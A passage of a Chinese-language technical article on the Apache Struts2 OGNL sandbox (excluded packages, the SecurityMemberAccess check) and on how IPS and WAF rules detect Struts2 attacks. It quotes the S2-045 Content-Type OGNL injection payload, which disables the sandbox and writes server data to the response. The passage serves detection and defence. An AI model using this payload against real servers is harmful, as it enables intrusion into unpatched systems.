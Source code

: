 ```xml
 
 <!-- this is simpler version of the above used with string comparison -->
 <constant name="struts.excludedPackageNames"
           value="
             ognl.,
             javax.,
             freemarker.core.,
             freemarker.template.,
             freemarker.ext.rhino.,
             sun.reflect.,
             javassist.,
             org.objectweb.asm.,
             com.opensymphony.xwork2.ognl.,
             com.opensymphony.xwork2.security.,
             com.opensymphony.xwork2.util." />
...
```

调试时，可以对`SecurityMemberAccess`的`isAccessible`函数下断点观察ognl的沙盒防护情况。

```java
public boolean isAccessible(Map context, Object target, Member member, String propertyName) {
     LOG.debug("Checking access for [target: {}, member: {}, property: {}]", target, member, propertyName);
     if (this.checkEnumAccess(target, member)) {
         LOG.trace("Allowing access to enum: {}", target);
         return true;
     } else {
         Class targetClass = target.getClass();
         Class memberClass = member.getDeclaringClass();
         if (Modifier.isStatic(member.getModifiers()) && this.allowStaticMethodAccess) {
             LOG.debug("Support for accessing static methods [target: {}, member: {}, property: {}] is deprecated!", target, member, propertyName);
             if (!this.isClassExcluded(member.getDeclaringClass())) {
                 targetClass = member.getDeclaringClass();
             }
         }
   ...
```

### 网络防护设备中对Struts2漏洞的防护思路

一般的ips、waf规则，可以从两个方向进行检测：
- 检测漏洞发生点，
- 检测利用的攻击代码。

Struts2有一些老的漏洞，很多是url中或者post表单中提交ognl代码，从漏洞点来看并不是太好做检测，所以一般的检测规则还是检查ognl代码，配合漏洞发生点。结合payload来看，ognl代码的构成，技术性最强的ognl代码是045和057的两个payload，还是从045的payload来看：

```
content-type: %{(#fuck='multipart/form-data') .(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#req=@org.apache.struts2.ServletActionContext@getRequest()).(#outstr=@org.apache.struts2.ServletActionContext@getResponse().getWriter()).(#outstr.println(#req.getRealPath("/"))).(#outstr.close()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```
